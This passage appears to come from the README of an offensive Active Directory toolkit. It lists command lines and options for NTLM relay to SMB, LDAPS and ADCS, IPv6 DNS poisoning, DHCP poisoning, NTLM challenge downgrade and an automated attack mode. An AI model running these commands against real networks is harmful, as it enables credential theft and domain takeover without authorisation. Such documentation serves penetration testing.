 SMB Relay:
```bash
# SMB relay with SOCKS
sudo python3 toolkit.py -i eth0 --relay --relay-type smb --socks

# LDAPS relay for computer account creation
sudo python3 toolkit.py -i eth0 --relay --relay-type ldaps --dc-ip 192.168.1.10

# ADCS relay
sudo python3 toolkit.py -i eth0 --relay --relay-type adcs --dc-ip 192.168.1.10
```

IPv6 Attacks:
```bash
# IPv6 DNS poisoning
sudo python3 toolkit.py -i eth0 --ipv6 -d corp.local
```

## Command Line Options

```
Required Arguments:
  -i, --interface     Network interface to use

Target Specification:
  -dc, --dc-ip       Domain controller IP
  -d, --domain       Domain name for IPv6/WPAD attacks
  -tr, --target-range Target subnet for relay discovery (default: 192.168.1.0/24)

Attack Modes:
  --auto             Enable automated attack sequence
  --analyze          Run in analyze mode only
  -r, --relay        Enable NTLM relay
  --ipv6             Enable IPv6 attacks

Relay Options:
  -rt, --relay-type  Relay protocol (smb, ldaps, adcs)
  -s, --socks        Enable SOCKS proxy

Collection Options:
  -p, --port         HTTP server port (default: 8080)
  -c, --challenge    Custom NTLM challenge for downgrade
  --dhcp             Enable DHCP poisoning
```

## Common Workflows

### Initial Access Testing
1. Start with analyze mode to identify opportunities:
```bash
sudo python3 toolkit.py --auto --analyze -i eth0
```
